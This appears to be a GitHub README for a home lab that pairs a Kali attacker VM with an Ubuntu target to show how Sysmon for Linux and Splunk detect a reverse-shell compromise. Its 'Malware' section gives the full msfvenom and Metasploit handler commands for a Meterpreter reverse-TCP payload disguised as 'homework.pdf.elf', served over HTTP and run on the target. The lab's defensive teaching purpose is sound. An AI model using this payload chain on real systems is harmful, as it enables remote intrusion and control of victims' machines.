




# 💻 Sysmon-to-Splunk: Reverse Shell Attack Detection

**Stack:** VirtualBox, Kali Linux (attacker), Ubuntu (target), Sysmon-for-Linux, Splunk, Metasploit, msfvenom, python HTTP

**Focus:** Endpoint Telemetry, SIEM Integration, and Threat Detection

**Goal:** Build and analyze a real attack scenario using Sysmon for Linux and Splunk SIEM

## 🔍 Overview

This lab simulates a **realistic endpoint compromise** in a controlled environment.  
Using **Kali Linux** as the attacker and **Ubuntu** as the target, I generated and analyzed **Sysmon telemetry** to detect malicious activity through **Splunk SIEM**.

The project bridges **red-team tactics** and **blue-team analysis**, showing how attacker actions translate into logs, and how defenders can identify those behaviors.

## 🧱 Lab Setup and Architecture

1. Install VirtualBox on your host OS.

2. Create the VMs:
   - **Ubuntu target** — install from [ISO](https://ubuntu.com/download/desktop).
   - **Kali attacker** — import the [Kali](https://www.kali.org/get-kali/#kali-platforms) VirtualBox image (or install from ISO).
   - Both VMs are in a internal network.

1. Allocate resources:
   - Set RAM and CPU for each VM depending on host resources.
   - *Example:* Kali: 4 GB RAM, 4 vCPU. Ubuntu: 4 GB RAM, 3 vCPU.

| Network Diagram                       |
| ------------------------------------- |
|         |  

## ⚙️ Documentation

### 1. Install Splunk on Ubuntu (Target)

1. Download Splunk Enterprise for Linux (from [Splunk website](https://www.splunk.com/en_us/products/splunk-enterprise.html)) on the Ubuntu VM.

2. Keep in mind that you will need internet connection to install Splunk.

3. On Ubuntu, install:
```shell
# replace splunk_package.deb with the name of your .deb file
sudo dpkg -i ./splunk_package.deb

# start splunk
sudo /opt/splunk/bin/splunk start
   ```

4. Visit the Splunk web UI from the Ubuntu machine at: http://localhost:8000

### 2. Install Sysmon on Ubuntu (Target)

1. Please visit the official [sysmonforlinux](https://github.com/microsoft/SysmonForLinux) repo for more information.

2. Register Microsoft key and feed
```
wget -q https://packages.microsoft.com/config/debian/$(. /etc/os-release && echo ${VERSION_ID%%.*})/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

2. Install sysmonforlinux
```
sudo apt-get update
sudo apt-get install sysmonforlinux
```

3. Update sysmon config, with (provided config)[./configs/sysmonconfig.xml], taken from [OpenSecureCo](https://github.com/OpenSecureCo/Demos/blob/main/sysmonforlinux)
```
nano /opt/config.xml
```

4. To test, see logs using:
```
sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

### 3. Malware

1. Note the ip of the attacker machine (Kali)
```
ip a
```

2. Create the reverse tcp payload with msfvenom using:
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f elf -o homework.pdf.elf
```
*note: lhost is the attackeer ip, elf executable file format is used for payload.*

4. Start msfconsole and prepare the handler and run exploit
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.20.11
exploit
```
- *note that the default payload for exploit/multi/handler is generic/shell_reverse_tcp (see below); explicitly set payload to linux/x64/meterpreter_reverse_tcp.*


5. Serve the payload with Python HTTP server
```
python3 -m http.server 9999
```

6. Install the malware on Ubuntu by visiting `192.168.20.11:9999` on a browser and downloading it from the python server. After installing:
```
chmod +x homework.pdf.elf
./homework.pdf.elf
```

7. After executing the payload, the handler on Kali should show a new Meterpreter session (see below). 


- In msfconsole you can interact with the Ubunut machine from the attacker machine using `shell` with the following commands:
```
shell
ip a 
user
getent group
```
- `ip a` shows network interfaces
- `user` lists users
- `getent group` retrieves group info from administrative databases

8. On the target machine, we can see that we have an established connection with the attacker machine using `sudo ss -tp`:.
```
ESTAB  0  0  192.168.20.10:34944  192.168.20.11:4444  users:((“sh”,pid=8931,fd=4),(“homework.pdf.el”,pid=8370,fd=4))
```
- *note that the peer address (2nd ip) is the attacker machines ip with the port of the handler.*
link

### 4. Telemetry

1. Configure Splunk to ingest sysmon entries

- On the Ubuntu machine running Splunk , navigate to $SPLUNK_HOME/etc/apps/search/local/ or the inputs.conf location. If there's no inputs.conf present, copy from the default app folder and add:
```
[monitor:///var/log/syslog]
disabled = 0
index = endpoint
sourcetype = sysmon:linux
```

- Save the file and restart:
```
sudo /opt/splunk/bin/splunk restart
```

- In Splunk web: Settings → Indexes → Add new index: endpoint (or the name you used).

- Confirm data ingestion by searching the new index: index=endpoint in the Search & Reporting app, the resuilt shoud look like:



2. Example Splunk queries

- All events in the endpoint index:
```
index=endpoint
```

- Search for attacker IP
```
index=endpoint "192.168.20.11"
```


## 💡 Future Improvements

> 🔧 **Work in Progress** — This is an work in progress lab, and I plan to improve it in the future.

- Add Splunk dashboards or alerts for Sysmon events.

- Test Windows Sysmon vs. Linux Sysmon telemetry differences.

- Add MITRE ATT&CK mapping for detected behaviors.


## 🏁 Final Thoughts

This lab bridges offensive and defensive cybersecurity skills, and allowed me to see how a SIEM can be used to detect, analyze, and investigate real-world attack activity in a safe environment.
